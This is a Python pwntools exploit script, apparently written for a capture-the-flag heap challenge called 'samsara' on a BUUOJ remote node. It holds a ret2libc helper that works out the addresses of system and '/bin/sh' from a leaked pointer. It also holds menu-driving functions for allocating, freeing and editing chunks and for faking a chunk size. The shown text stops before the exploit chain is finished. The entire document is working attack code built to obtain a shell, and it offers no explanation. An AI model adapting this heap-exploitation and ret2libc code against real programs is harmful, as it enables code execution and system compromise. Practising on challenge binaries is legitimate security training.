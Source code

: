 exp:

```
from pwn import  *
from LibcSearcher import LibcSearcher
from sys import argv

def ret2libc(leak, func, path=''):
	if path == '':
		libc = LibcSearcher(func, leak)
		base = leak - libc.dump(func)
		system = base + libc.dump('system')
		binsh = base + libc.dump('str_bin_sh')
	else:
		libc = ELF(path)
		base = leak - libc.symbols[func]
		system = base + libc.symbols['system']
		binsh = base + libc.search('/bin/sh').next()

	return (system, binsh)

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'
binary = './samsara'
context.binary = binary
elf = ELF(binary)
p = remote('node4.buuoj.cn', 26330) if (len(argv) == 2) and (argv[1] == 'r') else process(binary)
#path = '/lib/i386-linux-gnu/libc.so.6'
def dbg():
    gdb.attach(p)
    pause()\

def add():
	sla("choice > ", "1")

def delete(idx):
    sla("choice > ", "2")
    sla("Index:", str(idx))

def edit(idx, num):
    sla("choice > ", "3")
    sla("Index:", str(idx))
    sla("Ingredient:\n", str(num))

def show_addr():
    sla("choice > ", "4")
    ru("Your lair is at: 0x")
    num = r(12)
    addr = int(num, 16)
    print(hex(addr))
    return addr

def set_fake_chunksize(size):
    sla("choice > ", "5")
```